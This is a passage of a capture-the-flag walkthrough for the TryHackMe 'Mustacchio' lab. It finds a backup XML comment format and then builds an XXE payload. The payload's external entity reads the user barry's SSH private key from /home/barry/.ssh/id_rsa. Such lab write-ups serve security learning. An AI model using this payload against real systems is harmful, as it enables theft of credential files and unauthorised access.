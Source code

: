 ~~~
      }
  }
</script>
</head>
<body>

    <!-- Barry, you can now SSH in using your key!-->          <--------------
~~~

I downloaded the backup file (`/auth/dontforget.bak`).It is an example to show the format of the script that we need to submit:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Mustacchio/files]
└─$ cat dontforget.bak                            
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I
  [REDACTED]
  noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 
~~~

Reading the paragraph is a waste of time, but since we know that `barry` has a SSH key which we need, and know the format, we can create a payload to read the key. This kind of attack is called XXE (XML external entity) and we can use it to read files or even get RCE. Here is the XML payload:

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE sth [ <!ELEMENT sth ANY >
<!ENTITY lol SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
    <name>&lol;</name>
    <author></author>
    <com></com>
</comment>
~~~

After entering this payload, we'll get `barry`'s private key:

<p align="center"><img src="./files/privKey.png"></p>
